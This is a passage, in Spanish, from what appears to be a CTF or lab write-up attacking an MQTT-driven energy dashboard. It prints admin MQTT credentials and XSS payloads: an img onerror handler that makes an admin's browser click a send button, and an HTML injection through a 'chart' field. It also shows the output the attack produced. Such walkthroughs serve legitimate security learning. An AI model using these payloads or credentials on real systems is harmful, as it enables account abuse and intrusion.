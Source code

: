 ```javascript
                    btn.style.opacity = '0.3';


                    setTimeout(() => {
                        btn.style.opacity = '1';
                        btn.disabled = false;
                        showMessage('Record was end successfully!')
                    }, 1500);
                }
            }
            document.getElementById('send-record-id').onclick = sendrecord;
...
```

Esta función crea una imagen del gráfico de barras en base64 y, junto con otros datos, los envía en un JSON al topic `record` cuando el usuario hace clic en el botón `#send-record-id`.

También encontramos otra dirección accesible mediante un enlace: `/records/`. Esta dirección no es accesible para el usuario `calvin`, ya que no tiene el rol de administrador.

Nos suscribimos a todos los topics (`#`) utilizando las credenciales `admin:tJH8HvwVwC57BR6CEyg5`, y enviamos el siguiente JSON al topic `data`:

```json
{
  "solarEnergy": "<img src=x onerror=\"document.querySelector(`#send-record-id`).dispatchEvent(new Event('click'));\" />",
  "consumedEnergy": 15
}
```

Recibimos el siguiente JSON en el topic `record`:

```json
{"time":"2024-09-02T22:43:52.187Z","user":{"name":"JulianAdm","role":"admin"},"solar":"<img src=x onerror=\"document.querySelector(`#send-record-id`).dispatchEvent(new Event('click'));\" />","consumed":15,"grid":null,"chart":"data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAZAAAADICAYAAADGFbfiAAAgAElEQVR4Xu2dC3QV1b3GgYQYoAUSsMqjRVp5WAsWHwgVV6Mi2tt7aanGFwYDiAnPolXx ... BIgf8D+epLMhrp9ocAAAAASUVORK5CYII="}
```

Los mensajes enviados al topic `data` con el XSS se eliminan al recibir nuevos datos cada 2 segundos.

Intentamos publicar datos en el topic `record` con el usuario `admin` del servicio MQTT y no tenemos problemas, podemos hacerlo. Así que intentamos introducir otro XSS en el parámetro `chart` del JSON, intuyendo que será introducido en el atributo `src` de una etiqueta `<img>` de HTML:

```json
{
  "time": "2024-09-02T23:25:15.855Z",
  "user": {
    "name": "JulianAdm",
    "role": "admin"
  },
  "solar": 211,
  "consumed": 168,
  "grid": -43,
  "chart": "\"><h1>XSS</h1></"
}
```
